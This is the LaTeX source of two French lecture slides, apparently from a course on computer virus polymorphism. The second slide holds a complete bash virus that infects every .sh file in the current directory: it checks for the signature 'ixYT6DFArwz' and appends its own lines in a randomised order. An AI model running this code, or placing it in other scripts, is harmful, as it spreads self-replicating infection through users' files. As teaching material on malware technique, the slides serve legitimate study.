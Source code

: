 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Polymorphisme : code d'infection}
  Pour tous les fichiers .sh du répertoire courant :
\begin{itemize}
\item Il teste la surinfection par la présence d'une signature.
\item Pour les fichiers à infecter il ajoute les lignes une à une aléatoirement :
  \begin{itemize}
  \item Il énumère les numéros de ligne par une astuce arithmétique : les entiers
    $$ n_i=(r * 3^i) \bmod 17 \mbox{ pour } i=0,\ldots,16 $$
    sont distincts et aléatoires si $r$ l'est.
    \item  Il sélectionne la ligne qui contient \#@$n_i$\# avec un grep.
  \end{itemize}
  \end{itemize}
\end{frame}



\begin{frame}[fragile]
  \frametitle{Code d'infection avec sélection de ligne aléatoirement}
  \begin{block}{}
\begin{scriptsize}
\begin{verbatim}
LI=16
for i in *.sh	 #@1#  # "ixYT6DFArwz" c'est la signature
do   #@2#
    if  [  -z "$(grep ixYT6DFArwz $i)" ] #@3#  # recherche de la signature
    then # infection  #@4#
        #@5#
        #@6#
        nb=1; echo $i;  #@7#
        r=$(( ($RANDOM % ($LI+1)) + 1))  #@8#
        while [ $nb -le $LI ] #@9#
        do    #boucle de restauration du code #@10#
            r=$((($r*3) % ($LI+1))) #@11# choix d'une ligne aleatoire
            cat $0 | grep "#@$r#"  >> $i #@12# ajout de la ligne
            nb=$(($nb+1)); echo $r #@13#
        done  #@14#
    fi #@15#
done   #@16#
\end{verbatim}
\end{scriptsize}
\end{block}
\end{frame}



\subsection{Autres améliorations possibles}
\end{document}

